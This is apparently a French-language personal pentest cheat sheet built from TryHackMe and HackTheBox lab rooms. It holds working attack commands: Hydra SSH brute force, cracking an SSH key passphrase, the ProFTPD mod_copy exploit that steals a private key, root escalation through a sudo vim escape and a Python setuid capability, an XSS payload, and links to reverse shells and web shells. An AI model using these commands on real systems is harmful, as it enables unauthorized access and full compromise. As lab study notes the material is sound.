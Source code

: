 # ![](img/pentest_25.svg) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils
### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.

### Hydra 

-l = user
<br/>-L = userlist
<br/>-p = password
<br/>-P = passwordlist

```hydra -l test -P /home/petibonum/Outils/wordlist/rockyou.txt 10.10.11.100 ssh```

user = test
<br/>wordlist = rockyou.txt

[Source](https://linuxtrack.net/viewtopic.php?id=654)

### ADB connect 

[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
### SMB

Lets inspect one of the shares :
<br/>```smbclient //<ip>/anonymous```

You can recursively download the SMB share too. Submit the username and password as nothing.
<br/>```smbget -R smb://<ip>/anonymous```

### ProFTPD module mod_copy

Exemple : [Kenobi Room](https://tryhackme.com/room/kenobi)

Prérequis : port 21

    PORT   STATE SERVICE
    21/tcp open  ftp

    ┌──(root💀2d2359796bd4)-[/mnt/kenobiNFS]
    └─# nc 10.10.253.117 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.117]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful

    mkdir /mnt/<name_folder>
    sudo mount <ip_target_machine>:/var /mnt/<name_folder>
    ls -la /mnt/<name_folder>

    cp /mnt/<name_folder>/tmp/id_rsa .
    sudo chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.253.117

[Source](http://www.proftpd.org/docs/contrib/mod_copy.html)

## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    <br/>ans : /usr/bin/ping = cap_net_raw+ep
    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
    <br/>ans : root@cap:~#
    C'est bon, on est root sur la machine.

* N°4 : TryHackMe -> [Advent of Cyber 2020](https://tryhackme.com/room/adventofcyber2)
    <br/>```python -c 'import pty; pty.spawn("/bin/bash")'```
    
### XSS payload

Exemple :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

### Reverse Shell

[Reverse Shell examples](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### Recherche FIND spécifique

Rechercher des fichiers avec l'autorisation SUID :
<br/>```find / -user root -perm /4000 2>/dev/null```
<br/>```find / -perm -u=s -type f 2>/dev/null```

### LinPEAS - Linux Privilege Escalation Awesome Script

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

```git clone https://github.com/carlospolop/PEASS-ng.git```
### Outils d'encodage

[CyberChef](https://gchq.github.io/CyberChef/)

## Autres Sources

* [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
* [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
* [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
* [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
* [Reverse Shell - Synetis](https://www.synetis.com/etablir-un-reverse-shell-en-une-ligne/)
